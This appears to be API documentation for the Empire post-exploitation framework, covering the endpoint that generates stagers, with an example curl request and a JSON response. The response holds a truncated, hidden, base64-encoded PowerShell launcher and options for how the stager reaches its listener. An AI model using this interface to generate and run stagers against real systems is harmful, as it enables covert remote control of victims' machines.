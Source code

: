 ### Generate Stager

#### Handler

* **Handler** : POST /api/stagers
* Description : Returns the Empire stager specified by parameters.
* Parameters :
  * StagerName  : the stager name to generate (required)
  * Listener    : the listener name to generate the stager for (required)
  * *additional*    : any additional stager values enumerated from stager options

#### Example

**Request**:
```bash
curl --insecure -i -H "Content-Type: application/json" https://localhost:1337/api/stagers?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5 -X POST -d '{"StagerName":"launcher", "Listener":"testing"}'
```

**Response**:
```json
{
  "launcher": {
    "Base64": {
      "Description": "Switch. Base64 encode the output.",
      "Required": true,
      "Value": "True"
    },
    "Listener": {
      "Description": "Listener to generate stager for.",
      "Required": true,
      "Value": "testing"
    },
    "OutFile": {
      "Description": "File to output launcher to, otherwise displayed on the screen.",
      "Required": false,
      "Value": ""
    },
    "Output": "powershell.exe -NoP -sta -NonI -W Hidden -Enc JAB...KQA=",
    "Proxy": {
      "Description": "Proxy to use for request (default, none, or other).",
      "Required": false,
      "Value": "default"
    },
    "ProxyCreds": {
      "Description": "Proxy credentials ([domain\\]username:password) to use for request (default, none, or other).",
      "Required": false,
      "Value": "default"
    },
    "StagerRetries": {
      "Description": "Times for the stager to retry connecting.",
      "Required": false,
      "Value": "0"
    },
    "UserAgent": {
      "Description": "User-agent string to use for the staging request (default, none, or other).",
      "Required": false,
      "Value": "default"
    }
  }
}
```
